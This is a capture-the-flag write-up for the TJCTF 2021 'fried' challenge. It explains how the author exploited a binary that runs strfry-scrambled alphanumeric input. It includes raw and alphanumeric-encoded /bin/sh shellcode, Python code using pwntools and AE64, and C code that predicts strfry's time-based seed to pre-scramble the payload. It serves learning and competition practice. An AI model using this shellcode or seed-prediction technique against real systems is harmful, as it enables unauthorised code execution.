

# TJCTF 2021 - Writeup: fried

This was a fun challenge, especially because we got first blood on it :-)


 


The challenge was form of a binary named <code>chall</code>

After importing the binary into Ghidra, the following code is found in the main()-function

 

In short the code does the following:
1. Allocate 4096 bytes of memory
2. Read 4096 bytes from stdin into that memory
3. Validate that all read bytes are between 0x30 and 0x7e which mainly represents alphanumeric characters
4. Use the function strfry() to scramble the read bytes
5. Execute the now scrambled bytes :-P

My first thought was to see if i could find some win()-function and spray the memory with a couple of bytes that would jump to that function, but alas no such function could be found.

So I turned to see if the strfry()-function was predictable. The function was as follows:

 

 In the beginning of the function __initstate_r()-function is called and are using the current time in epoch xor:ed with the current pid. The current time shouldn't be much of a problem. This is a common CTF-scenario and there are usually only at most a few seconds difference between the CTF-server and "my" computer.

 The pid of the current process could have be a problem, but because the CTF-infrastructure is using containers, the pid is actually always 1 :-)

Okey, so we should be able to handle the scrambling-part. Then, what to send in.

With the awesome pwntools it's easy to generate some shellcode. 

```bash
 shellcraft amd64.linux.sh -f escaped
```
this generates the following escaped string:
```bash
"\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05"
```

Now this wont work. Only alphanumerics allowed.

I tried using the pwnlib-function: pwnlib.encoders.encoder.alphanumeric(...), but i couldn't get that to work, so I found another encoder called [AE64](https://github.com/veritas501/ae64)

Using that I could create a working payload with the following code:

```python
from ae64 import AE64
from pwn import *
context.arch='amd64'

shellcode = asm(shellcraft.sh())

enc_shellcode = AE64().encode(shellcode)
print(enc_shellcode.decode())
```

This generates the following:
<pre>
WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjcTYfi9O60t800T810T850T860T870T8A0t8B0T8D0T8E0T8F0T8G0T8H0T8P0t8T0T8YRAPZ0t8J0T8M0T8N0t8Q0t8U0t8WZjUTYfi9860t800T850T8P0T8QRAPZ0t81ZjhHpzbinzzzsPHAghriTTI4qTTTT1vVj8nHTfVHAf1RjnXZP
</pre>

Okey, so now to handle the scrambling.
I created to following C code to reverse-scramble the data:

```C
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <unistd.h>

char *
strfry (char *string, int drift)
{
    static int init;
    static struct random_data rdata;
    if (!init)
    {
        static char state[32];
        rdata.state = NULL;
        time_t now = time ((time_t *) NULL);
        now += drift;
        
        initstate_r (now ^ 1, state, sizeof (state), &rdata);
        init = 1;
    }

    size_t len = strlen (string);

    int pos[0x1000];

    if (len > 0)
    {
        // Generate scramble swaps and put them in a list
        for (size_t i = 0; i < len - 1; ++i)
        {
            int32_t j;
            random_r (&rdata, &j);
            j = j % (len - i) + i;
            pos[i] = j;
        }
        // Apply changes in the reverse order
        for (size_t i = len-2; i >= 0; --i)
        {
            int j = pos[i];
            char c = string[i];
            string[i] = string[j];
            string[j] = c;
            if (i == 0) break;
        }
    }
    return string;
}

void main(int argc, char **argv) {
    // accept drift seconds as parameter
    int drift = atoi(argv[1]);
    char mem[0x1001];
    for (int i=0;i<0x1000;i++)mem[i] = 'A';
    char *shellcode = "WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjcTYfi9O60t800T810T850T860T870T8A0t8B0T8D0T8E0T8F0T8G0T8H0T8P0t8T0T8YRAPZ0t8J0T8M0T8N0t8Q0t8U0t8WZjUTYfi9860t800T850T8P0T8QRAPZ0t81ZjhHpzbinzzzsPHAghriTTI4qTTTT1vVj8nHTfVHAf1RjnXZP";
    int shellcode_len = strlen(shellcode);
    for (int i=0;i<shellcode_len;i++)mem[i] = shellcode[i];
    mem[0x1000] = 0;
    strfry(mem, drift);
    puts(mem);
} 
```

This now generates a payload that is reverse scrambled so that it becomes correct when the challenge scrambles it.


So now we just have to use it.
Had to try a couple of drift seconds, but then! Woop! :-)


A really nice challenge. Thanks <b>kfb</b>
